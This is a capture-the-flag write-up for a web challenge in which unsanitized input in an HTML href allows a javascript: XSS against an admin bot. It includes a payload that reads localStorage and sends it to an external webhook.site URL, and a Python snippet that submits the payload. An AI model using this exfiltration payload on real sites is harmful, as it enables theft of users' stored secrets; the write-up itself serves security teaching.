



# Fancy Button Generator

```
Check out this cool new fancy button generator! The buttons even glow!

https://fbg.rars.win/

Make sure to test your payloads using the full environment provided.
```

## Challenge

> TL;DR: Unsanitized input is inserted into an HTML `href` attribute, what could go wrong? Use the pseudo-protocol `javascript:` to execute JS and read the Admin's [localStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) to loot the flag.

Looking at the given source code, it was clear that the objective of this challenge is to XSS the "Admin" bot:

**Source**: `FBG/chall/server.py`
```py
@app.route('/button')
def button():
    title = request.args.get('title')
    link = request.args.get('link')
    return render_template('button.html', title=title, link=link)

@app.route('/admin')
def admin():
    if (not session.get("verified")) or (not session.get("end")):
        return redirect("/pow")
    if session.get("end") < time.time():
        del session['pref']
        del session['suff']
        del session['end']
        del session['verified']
        return redirect("/pow")

    title = request.args.get('title')
    link = request.args.get('link')
    host = random.choice(["admin", "admin2", "admin3"])
    r = requests.post(f"http://{host}/xss/add", json={"title": title, "link": link}, headers={"Authorization": os.getenv("XSSBOT_SECRET")})
    return f'Nice button! The admin will take a look. Current queue position: {r.json()["position"]}'
```

Requesting for the path `/button` would render the button template page which uses the user-supplied HTTP parameters `title` and `link`. This lets us "test" our XSS payload before using the same input at `/admin`. The `/pow` "verification" requires the use of a solver script that the challenge provided (more on that later).

> We could also easily spin up a local environment since the docker files were given. 

Inspecting the button template file, we see how the template variables are used:

**Source**: `FBG/chall/templates/button.html`
```html
<a class="special-case" id="btn" href="{{ link }}"><button class="special-button"> {{ title }}</button></a>
```

From this, we immediately see that `link` is useful for us since the value is inserted directly into the `href` attribute without sanitization!

Let's verify this:

```
/button?link=javascript:alert(1)
```



XSS works! Let's attack the admin now... But wait, where is the flag exactly? Inspecting the `docker-compose` file, we see that the flag is passed to the `admin` containers as an environment variable:

**Source**: `FBG/docker-compose.yml`
```yml
  admin:
    build:
      context: ./admin
      dockerfile: Dockerfile
    networks:
      - fbg
    environment:
      - SITE=https://fbg.rars.win/
      - FLAG=NOPE
      - XSSBOT_SECRET=NOPE
```

This environment value is subsequently used in the `admin` container, which reveals that the flag is hidden in the Admin's [localStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage):

**Source**: `FBG/admin/admin.js`
```js
await page.evaluate(flag => {
    localStorage.flag = flag;
}, process.env.FLAG);
```

So our XSS payload needs to grab the `flag` from the localStorage and exfiltrate it to our external server!

```js
javascript:window.location.replace('https://webhook.site/17924832-3f7c-4d6c-927b-42ae9adee557/?flag='+localStorage.getItem('flag'))
```

In order to access `/admin`, we need to pass the `/pow` verification. However, the solver script is provided. So we just need to append the following lines to the provided script:

```py
link = "javascript:window.location.replace('https://webhook.site/17924832-3f7c-4d6c-927b-42ae9adee557/?flag='%252BlocalStorage.getItem('flag'))"
res = s.get(host + "admin?title={}&link={}".format(title, link))
print(res)
```

Running it and obtaining the flag on our external server:



Flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`
